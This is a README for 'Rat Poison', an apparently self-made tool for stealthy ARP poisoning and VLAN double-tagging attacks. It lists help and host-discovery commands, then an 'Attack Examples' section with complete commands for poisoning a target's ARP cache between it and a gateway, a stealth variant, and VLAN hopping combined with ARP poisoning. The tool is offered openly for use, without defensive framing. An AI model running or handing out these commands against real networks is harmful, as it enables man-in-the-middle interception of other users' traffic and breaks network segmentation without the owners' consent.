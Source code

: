 # Rat Poison

A self-made ARP poisoning tool that is stealthy and RFC 5527 compliant. It is capable of VLAN double tagging and ARP poisoning.

## Usage Examples

Help Menu
```bash
python poison.py -h
```

Show Active Hosts within the Local Network
```bash
python poison.py -l 192.168.1.0/24
```
Enable Stealth Mode
```bash
python poison.py --stealth
```
Optional Arguments
ARP Poisoning Mode without VLAN Double Tagging
To be used with -T, -M, -G

```bash
python poison.py -P
```
ARP Poisoning Mode with VLAN Double Tagging
To be used with -T, -M, -G, -TM, -MM, -GM, --vlan1, --vlan2

```bash
python poison.py -PV
```

## Attack Examples

Normal ARP Poisoning
```bash
python poison.py -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1
```

Normal ARP Poisoning with Stealth
```bash
python poison.py --stealth -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1
```

VLAN Hopping with ARP Poisoning (Native VLAN 10, Target VLAN 20)
Requires Target MAC, Monitor MAC, Gateway MAC with vlan1 and vlan2
```bash
python poison.py -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1 -TM "AA:AA:AA:AA:AA:AA" -MM "BB:BB:BB:BB:BB:BB" -GM "CC:CC:CC:CC:CC:CC" --vlan1 10 --vlan2 20
```